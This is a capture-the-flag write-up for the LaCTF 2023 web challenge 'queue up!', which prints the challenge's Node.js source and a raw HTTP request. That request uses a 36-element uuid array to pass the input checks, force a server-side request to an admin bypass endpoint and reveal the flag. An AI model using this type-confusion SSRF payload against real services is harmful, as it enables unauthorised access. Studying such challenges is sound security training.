 ```yaml
---
layout: post
title: "LaCTF 2023 - queue up! [Web]"
categories: ctf
tags: web ikerl
date: 2023-02-12 22:00:00 +0100
author: ikerl
---
```


queue up! is a web challenge in LaCTF 2023 that ended with 34 solves. The goal is to retrieve a flag that is sent by a web application when the queue goes down and the timer reaches zero. However, with over 20,000 users waiting for the flag, the estimated time to win is about 80+ days (with only one flag being sent every 5 minutes).

```
I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.

Disclaimer: Average wait time is 61 days.
```

![](queued.png)

## Analysis of the Application Design

The first step in solving this challenge is to analyze the source code to identify the most important features to test. The web app consists of two independent servers: the flag server (https://qu-flag.lac.tf/) and the queue server (https://qu-queue.lac.tf/).

The flag server only performs two tasks: if the user requests `/` using the GET method, they will be redirected to the queue server, and if the timer of the queue server reaches zero, the user will be redirected back to the flag server using the POST method, and the flag will be sent.

This is the high-level logic of the web application:

- The user arrives to the flag server.
- The user cannot read the flag until his timer reaches zero, so he is redirected to the queue server to wait.
- When the timer reaches zero the user has the option of being redirected back to the flag server in order to get the flag.

## Source Code Analysis

```javascript=
    app.get("/api/:uuid/status", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            res.send(user.served);

        } catch {
            res.send("false");
        }

    });

    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

During the source code analysis, two key points were identified:

- The queue server has two privileged functionalities only available to administrators. The first is to prioritize users in the queue, reducing waiting time, and the second is to check the status of users in the queue to determine if they can receive the flag.
- The flag server has a uuid verification process. The user submits their uuid in the request body, and the server checks if:
    - The uuid has a length of 36
    - The uuid contains only numbers, letters, and hyphens.
    - If both requirements are met, the flag server will execute a request to the queue server's status functionality to determine if the user can receive the flag.

```javascript=
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

## Vulnerability and Exploitation

There is a critical vulnerability in the checks performed by the flag server. By using arrays, it is possible to bypass both checks and modify the server's request (SSRF) to bypass the user's position in the queue.

The exploit used during this challenge involves sending a POST request to the `/` endpoint of the flag server with the uuid as a POST parameter in the body. 

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 366

uuid[]=70964ab7-1025-4f86-a378-ab3b737bed3a/bypass?&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a
```
This payload will meet the condition of being 36 in length (in this case 36 elements in the array instead of 36 characters) and will bypass character validation because it is not a string. When constructing the `requestUrl` the 36 elements of the array will be concatenated one after the other using commas so that the following `requestUrl` will result: `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/bypass?/status,a,a,a,a,a,a,a,a,a,a,a,a,a,a....`.

This way we will exploit the SSRF vulnerability in the flag server and have our uuid bypassed, thus obtaining the flag without having to wait in the queue.

![](flag.png)

Note: When clicking the Get my flag! button, the connection may fail because it uses HTTP instead of HTTPS.

Flag: `lactf{Byp455in_7he_Qu3u3}`
